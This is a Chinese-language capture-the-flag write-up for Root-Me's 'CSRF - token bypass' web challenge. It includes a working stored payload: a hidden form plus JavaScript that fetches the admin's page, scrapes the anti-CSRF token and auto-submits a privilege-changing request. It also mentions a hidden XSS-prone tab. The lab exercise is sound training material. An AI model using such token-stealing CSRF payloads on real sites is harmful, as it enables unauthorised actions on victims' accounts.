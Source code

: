 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - token bypass](https://www.root-me.org/en/Challenges/Web-Client/HTML-disabled-buttons)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2933/)]

------

这题与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】是一样的，只是多了一个 token 校验。

切到 Profile 选项卡，打开浏览器开发者工具，切到 Elements ，可以看到激活表单多了一个实时刷新的 `token`，而且在本地找不到关于这个 `token` 的生成代码，因此可以推断这个 `token` 是与登录账号绑定、且由 web 服务器生成的。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/01.png)

于是我们的目的就是需要在原本利用 robot-admin 的 Cookie 的基础上，再同时利用其 `token` 。

由此构造 payloads 如下（此 payloads 与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】大致相同，只是多了一个步骤，就是让 robot-admin 先访问 Profile 选项卡获取其 `token`，加到 form 表单后再提交）：

```javascript
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp" />  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on" />  <!-- 激活动作 -->
    <input id="admin-token" type="hidden" name="token" value="" />  <!-- 网站用于防止 CSRF 的 token，需绕过 -->
</form>
<script>

	// 使用 robot-admin 的身份获取 robot-admin 的 token，用于绕过 CSRF 校验
	var request = new XMLHttpRequest();
	request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
	request.send(null);	
	var respone = request.responseText;
	var groups = respone.match("token\" value=\"(.*?)\"");
	var token = groups[1];
	
	document.getElementById("admin-token").value = token;	// 置换 robot-admin 的 token
	document.csrf.submit();
</script>
```

将 payloads 其拷贝到 Contact 选项卡的 Comment 输入框提交。

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/02.png)

> 注：查看页面源码发现有一个隐藏的选项卡 Search 被注释了 `<!--| <a href="?action=search">Search</a> -->`，打开该选项卡，里面有一个 XSS 漏洞，但是暂时没发现这个漏洞对于本题有什么用（可能只是用来方便我们调试，但应该没那么好心，应该是用来误导的）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/03.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
